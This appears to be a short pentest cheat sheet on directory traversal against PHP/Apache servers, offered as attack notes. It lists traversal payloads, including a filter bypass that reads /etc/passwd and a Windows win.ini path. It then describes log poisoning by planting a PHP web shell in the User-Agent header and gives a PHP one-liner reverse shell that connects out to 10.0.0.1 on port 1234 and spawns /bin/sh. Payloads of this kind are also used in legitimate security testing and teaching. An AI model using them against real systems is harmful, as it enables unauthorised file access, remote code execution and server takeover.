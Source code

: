 # Directory Traversal

## PHP apache server directory traversal scenerios

Apache2 files are stored in /var/www/html. So to get out from the directory, we need `../../../`\
In windows, the attack is like `..\..\..\windows\win.ini`

### Strategies

- Look in the url for `?filename=something.ext` type stuff.
- try to bypass with as much `../` as needed
- If relative path does not work correctly, try absolute path.
- If protected with non-recursive filter, use `....//....//....//etc/passwd`

### Revshell

- apache2 servers has got their log file is `/var/log/apache2/access.log`
- test `<?php system($_GET['cmd']);?>` in the user-agent section or any user controllable section
- reverse shell `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`